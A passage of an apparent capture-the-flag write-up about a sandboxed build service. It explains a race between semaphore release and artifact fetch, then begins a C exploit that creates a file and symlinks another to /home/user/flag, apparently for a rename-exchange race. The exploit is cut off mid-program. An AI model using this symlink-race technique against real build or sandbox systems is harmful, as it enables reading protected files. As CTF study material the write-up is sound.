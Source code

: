 I can only speculate what the intended race condition was.

The sandbox users are protected with System V semaphores (one mutex per user).
You won't get the same UID when build is in progress, which prevents you from
rewriting build artifacts. However, the semaphore is released as soon as build
completes, so you can try to get the same UID and rewrite the build artifacts
before **Fetch** is run.

The window of opportunity is rather small, though, as build executor uses a
busy loop with sleep instead of blocking. It'll take up to 10ms before it
notices that the user has become free, which gives the admin builder process
plenty of time to fetch the binary, and makes the race hard to exploit. I
never tested this in practice, though.

```c  
// Linux doesn't offer a mechanism for waiting on multiple semaphores at once.  
// So, sadly, we busywait.  
// Returns the index of which semaphore was in fact decremented.  
size_t MultiDecrement(std::vector<IpcSemaphore>* sems, int count=1) {  
 while(true) {  
   for (size_t i = 0; i < sems->size(); ++i) {  
     if ((*sems)[i].TryDecrement(count)) return i;  
   }  
 usleep(10000);  // 10 ms  
 }  
}  
```

## Exploit code

```c  
#define _GNU_SOURCE  
#include <stdio.h>  
#include <unistd.h>  
#include <fcntl.h>  
#include <stdio.h>  
#include <unistd.h>  
#include <sys/syscall.h>

#ifndef __NR_renameat2  
#define __NR_renameat2 316  
#endif

#ifndef RENAME_EXCHANGE  
#define RENAME_EXCHANGE (1<<1)  
#endif

#ifndef AT_FDCWD  
#define AT_FDCWD -100  
#endif

int main() {  
   const char *FILENAME1 = "f1";  
   const char *FILENAME2 = "f2";

   {  
       FILE *f = fopen(FILENAME1, "w");  
       fputs("1", f);  
       fclose(f);  
   }  
   symlink("/home/user/flag", FILENAME2);

   puts("hi");  
   fflush(stdout);

```